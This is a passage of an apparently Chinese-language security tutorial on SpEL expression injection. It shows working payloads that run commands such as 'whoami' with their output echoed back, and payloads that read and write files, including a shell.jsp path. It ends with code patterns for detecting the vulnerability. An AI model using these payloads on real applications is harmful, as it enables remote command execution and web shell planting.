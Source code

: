### JShell
上文中的`JShell`是可以实现回显输出的, 但是这种方式会受限于`jdk`的版本问题.

```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

### BufferedReader
`jdk`原生类实现回显的输出, 但是该方法只能读取一行.

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream(), "gbk")).readLine()
```

### Scanner
利用`Scanner#useDelimiter`方法使用指定的字符串分割输出, 因此这里给一个乱七八糟的字符串即可, 就会让所有的字符都在第一行, 然后执行`next`方法即可获得所有输出.

```java
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "/").start().getInputStream(), "GBK").useDelimiter("h3rmesk1t").next()
```

## 读写文件
 - 读文件

```java
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/shell.jsp"))))
```

 - 写文件

```java
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/helloworld/shell.jsp")), '123464987984949'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)
```

# 检测与防御
## 检测方法
全局搜索关键特征:

```java
// 关键类
org.springframework.expression.Expression
org.springframework.expression.ExpressionParser
org.springframework.expression.spel.standard.SpelExpressionParser

// 调用特征
ExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(str);
expression.getValue()
expression.setValue()
```
